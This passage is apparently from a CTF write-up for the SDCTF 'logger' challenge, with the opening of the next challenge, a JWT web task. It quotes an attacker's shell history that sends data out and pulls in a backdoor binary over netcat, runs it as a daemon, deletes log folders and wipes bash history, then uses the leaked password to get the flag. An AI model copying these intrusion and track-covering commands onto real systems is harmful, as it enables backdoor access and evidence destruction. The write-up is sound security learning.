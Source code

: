 ```
# nc -l 1337 < data.tar.gz
# rm -rf /home/john/logs/2018/6/10 /home/john/logs/2018/6/11 /home/john/logs/2018/6/12
# rm data.tar.gz
# mkdir /lib/network
# nc -l 1337 > /lib/network/daemon
# chmod +x /lib/network/daemon
# /lib/network/daemon
Success... running on port 1338
# nc logger.sdc.tf 1338
Pass: 82d192aa35a6298997e9456cb3a0b5dd92e4d6411c56af2169bed167b53f38d
ls /home/john
exploit  logs  site
^C
# rm exploit
# echo "" > .bash_history
# echo "" > ~/.bash_history
# exit
john@logger:~# ./logger

Wed 06/13 12:55:03 START : ************************** STARTING LOGGING **************************
Wed 06/13 12:55:03 LOG   : 0 logs logged!
Wed 06/13 12:55:48 LOG   : 6 logs logged!
[...]
```

It seems on that Wednesday, John Logger censored the logs from June 10 to 12, among other sus things. I initially thought that I'd have to find `./exploit` since it gave me the full path of the website files, but apparently it was a lot simpler than that. I just had to run `nc logger.sdc.tf 1338` then input the password in the logs, and it gave me the flag directly.

```
$ nc logger.sdc.tf 1338
Pass: 82d192aa35a6298997e9456cb3a0b5dd92e4d6411c56af2169bed167b53f38d
sdctf{b3tr4y3d_by_th3_l0gs_8a4dfd}
```

Interesting!

This challenge taught me that I shouldn't just assume everything is the same, and I should try validating each page especially if there's a note permitting automation tools.

## jawt/jwt ctf

> ### JaWT that down!
>
> _WEB - Easy_
>
> The new ultra maximum security plugin I installed on my website is so good that even I can’t log in. Hackers don’t stand a chance.
>
> **Website**: <https://jawt.sdc.tf/>
> ⠀
> _Use of nondisruptive automation tools is allowed for this challenge_
>
> _By Infernis_
